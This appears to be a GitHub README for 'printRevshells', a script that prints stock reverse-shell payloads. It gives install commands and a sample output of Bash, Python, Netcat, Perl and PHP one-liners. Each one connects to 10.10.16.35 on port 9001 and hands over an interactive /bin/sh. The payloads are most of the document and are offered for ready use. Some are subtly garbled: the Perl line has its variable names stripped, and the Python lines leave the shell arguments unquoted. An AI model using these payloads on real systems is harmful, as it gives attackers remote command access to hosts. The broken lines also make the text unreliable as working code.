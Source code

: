 ## printRevshells

### Purpose
Got sick of looking for the same payloads every time you want to pop a reverse shell? This simple script will print via the terminal the most common revshell payloads you can find on the web.

There are plenty of payloads online but this script includes:
- Bash
- Python
- Netcat
- Perl
- PHP

The script is easily customizable so you can add your own payloads aswell


### Installation
```
sudo wget https://raw.githubusercontent.com/therodri2/printRevshells/main/printRevshells -O /usr/local/bin/printRevshells
sudo chmod +x /usr/local/bin/printRevshells
username=$(whoami)
sudo chown $username /usr/local/bin/printRevshells

```


### Usage
If you followed the installation instructions, you will have added *printRevshells* to an existing folder included within your PATH.

Also, you will be the owner of the file, so you can execute it even if you are not root :P

Therefore, all you need to do to call this script is to simply type `printRevshells`

Example:

```
shroudri@kali:/tmp$ printRevshells
Bash
bash -i >& /dev/tcp/10.10.16.35/9001 0>&1

Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'

Netcat
nc -e /bin/sh 10.10.16.35 9001
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.35 9001 >/tmp/f 

Perl
perl -e 'use Socket;="10.10.16.35";=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in(,inet_aton()))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

PHP
php -r '$sock=fsockopen("10.10.16.35",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

